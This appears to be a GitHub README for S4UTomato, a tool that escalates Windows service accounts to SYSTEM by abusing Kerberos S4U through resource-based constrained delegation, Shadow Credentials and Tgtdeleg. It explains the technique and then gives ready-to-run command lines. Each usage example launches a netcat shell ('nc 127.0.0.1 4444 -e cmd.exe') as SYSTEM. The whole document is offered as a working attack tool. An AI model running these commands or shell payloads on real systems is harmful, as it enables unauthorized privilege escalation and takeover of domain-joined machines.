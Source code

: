 # S4UTomato

Escalate Service Account To LocalSystem via Kerberos.

# Traditional Potatoes

Friends familiar with the "Potato" series of privilege escalation should know that it can elevate service account privileges to local system privileges. The early exploitation techniques of "Potato" are almost identical: leveraging certain features of COM interfaces, deceiving the NT AUTHORITY\SYSTEM account to connect and authenticate to an attacker-controlled RPC server. Then, through a series of API calls, an intermediary (NTLM Relay) attack is executed during this authentication process, resulting in the generation of an access token for the NT AUTHORITY\SYSTEM account on the local system. Finally, this token is stolen, and the `CreateProcessWithToken()` or `CreateProcessAsUser()` function is used to pass the token and create a new process to obtain SYSTEM privileges.

# How About Kerberos

In any scenario where a machine is joined to a domain, you can leverage the aforementioned techniques for local privilege escalation as long as you can run code under the context of a Windows service account or a Microsoft virtual account, provided that the Active Directory hasn't been hardened to fully defend against such attacks.

In a Windows domain environment, SYSTEM, NT AUTHORITY\NETWORK SERVICE, and Microsoft virtual accounts are used for authentication by system computer accounts that are joined to the domain. Understanding this is crucial because in modern versions of Windows, most Windows services run by default using Microsoft virtual accounts. Notably, IIS and MSSQL use these virtual accounts, and I believe other applications might also employ them. Therefore, we can abuse the S4U extension to obtain the service ticket for the domain administrator account "Administrator" on the local machine. Then, with the help of James Forshaw ([@tiraniddo](https://twitter.com/tiraniddo))'s  [*SCMUACBypass*](https://gist.github.com/tyranid/c24cfd1bd141d14d4925043ee7e03c82), we can use that ticket to create a system service and gain SYSTEM privileges. This achieves the same effect as traditional methods used in the "Potato" family of privilege escalation techniques.

Before this, we need to obtain a TGT (Ticket Granting Ticket) for the local machine account. This is not easy because of the restrictions imposed by service account permissions, preventing us from obtaining the computer's Long-term Key and thus being unable to construct a KRB_AS_REQ request. To accomplish the aforementioned goal, I leveraged three techniques: [*Resource-based Constrained Delegation*](https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html), [*Shadow Credentials*](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab), and [*Tgtdeleg*](https://twitter.com/gentilkiwi/status/998219775485661184). I built my project based on the  [Rubeus](https://github.com/GhostPack/Rubeus#tgtdeleg) toolset.

# How to Use and Examples

```cmd
C:\Users\whoami\Desktop>S4UTomato.exe --help

S4UTomato 1.0.0-beta
Copyright (c) 2023 whoamianony.top

  -d, --Domain              Domain (FQDN) to authenticate to.
  -s, --Server              Host name of domain controller or LDAP server.
  -m, --ComputerName        The new computer account to create.
  -p, --ComputerPassword    The password of the new computer account to be created.
  -f, --Force               Forcefully update the 'msDS-KeyCredentialLink' attribute of the computer
                            object.
  -c, --Command             Program to run.
  -v, --Verbose             Output verbose debug information.
  --help                    Display this help screen.
  --version                 Display version information.
```

### LEP via Resource-based Constrained Delegation

```cmd
S4UTomato.exe rbcd -m NEWCOMPUTER -p pAssw0rd -c "nc.exe 127.0.0.1 4444 -e cmd.exe"
```

![rbcd](/images/rbcd.gif)

### LEP via Shadow Credentials + S4U2self

```cmd
S4UTomato.exe shadowcred -c "nc 127.0.0.1 4444 -e cmd.exe" -f
```

![shadowcred](/images/shadowcred.gif)

### LEP via Tgtdeleg + S4U2self

```cmd
# First retrieve the TGT through Tgtdeleg
S4UTomato.exe tgtdeleg
# Then run SCMUACBypass to obtain SYSTEM privilege
S4UTomato.exe krbscm -c "nc 127.0.0.1 4444 -e cmd.exe"
```

![tgtdeleg](/images/tgtdeleg.gif)
